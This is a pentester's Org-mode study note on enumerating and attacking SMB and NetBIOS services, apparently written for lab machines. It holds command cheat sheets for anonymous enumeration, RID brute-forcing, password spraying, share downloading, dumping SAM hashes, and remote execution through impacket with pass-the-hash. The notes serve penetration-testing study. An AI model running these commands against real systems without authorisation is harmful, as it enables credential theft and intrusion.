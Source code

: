 :PROPERTIES:
:ID:       ee7b0e9a-cb6d-434f-bf7d-87bbd00b18b9
:END:
#+title: Pentest - SMB p 139,445
#+filetags: :crackmapexec:smbmap:smb:pentest:
#+hugo_base_dir:../


[[https://book.hacktricks.xyz/network-services-pentesting/pentesting-smb][HackTricks]]


* Port 139 [[id:2e735517-eea9-4a23-a83a-c99740b91756][NetBIOS]]
_NetBIOS_ is ~Network Basic Input Output System~, which is a software protocol that allows applications, PCs, and Desktops on a local area network (LAN) to communicate with network hardware and to transmit data across the network.
* Port 445 [[id:c761907f-f7ef-4aa7-adcf-e3d178feec86][SMB - Server Message Block]]
While Port 139 is known technically as ‘NBT over IP’, Port 445 is ‘SMB over IP’. SMB stands for ‘Server Message Blocks’.
** SMB
Server Message Block (SMB) is a client-server protocol that regulates access to files and entire directories and other network resources such as printers, routers, or interfaces released for the network.
* Server Enumeration
Search for hosts:
#+begin_src shell -n
nbtscan -r 192.168.1.1/24
#+end_src
** SMB information
#+begin_src shell -n
enum4linux -a [-u "<username>" -p "<passwd>"] <IP>
enum4linux-ng -A [-u "<username>" -p "<passwd>"] <IP>

# connect to rpc
rpcclient -U "" -N <IP> #No creds
rpcclient //machine.htb -U domain.local/USERNAME%754d87d42adabcca32bdb34a876cbffb  --pw-nt-hash
rpcclient -U "username%passwd" <IP> #With creds
#+end_src

# smbclient
#+begin_src sh
smbclient //10.10.10.10/Public -U 'anonymous' -N
smbclient -L //dc01.coder.htb -U Guest
#+end_src

See also impacket: samrdump, rpcdump
** Users, Groups
#+begin_src shell -n
crackmapexec smb 10.10.10.10 --users [-u <username> -p <password>]
crackmapexec smb 10.10.10.10 --groups [-u <username> -p <password>]
crackmapexec smb 10.10.10.10 --groups --loggedon-users [-u <username> -p <password>]
crackmapexec smb 10.10.10.10 -u usernames.txt -p ‘’ --continue-on-success


ldapsearch -x -b "DC=DOMAIN_NAME,DC=LOCAL" -s sub "(&(objectclass=user))" -h 10.10.10.10 | grep -i samaccountname: | cut -f 2 -d " "

#+end_src
** Anonymous logon
#+begin_src sh
crackmapexec smb <host> -u 'a' -p '' --shares
#+end_src
** List files
#+begin_src sh
crackmapexec smb <host> -u 'a' -p '' -M spider_plus
#+end_src
** Download files
#+begin_src sh
crackmapexec smb <host> -u 'a' -p '' -M spider_plus -o DOWNLOAD_FLAG=TRUE EXCLUDE_DIR=IPC$
#+end_src
** IPC$ Share
With an anonymous null session you can access the IPC$ share and interact with services exposed via named pipes. The enum4linux utility within Kali Linux is particularly useful; with it, you can obtain the following:
- Operating system information
- Details of the parent domain
- A list of local users and groups
- Details of available SMB shares
- The effective system security policy

RID cycling with ~crackmapexec~
#+begin_src shell -n
crackmapexec smb <ip> -u 'a' -p '' -d <domain> --rid-brute |grep User
#+end_src
then, eg, check for UF_DONT_REQUIRE_PREAUTH and [[id:f6604f23-26b0-4da6-9c3d-f240b929526a][AS-REP Roasting]]. Then attempt ~crackmapexec~ with smb and username password combinations.  Passwords from list (eg rockyou), customized list, usernames as passwords (backwards and forwards, case change, etc).
** SMB Command Execution
#+begin_src shell -n
impacket-smbexec administrator:'<password>'@machine.htb
#+end_src
*** Dump sam hashes
#+begin_src shell -n
crackmapexec smb <IP> -u <username> -p "PASSWORD" --sam
#+end_src
*** wmiexec
#+begin_src shell -n
impacket-wmiexec <user>@<ip> -hashes "<user hash>"
#+end_src
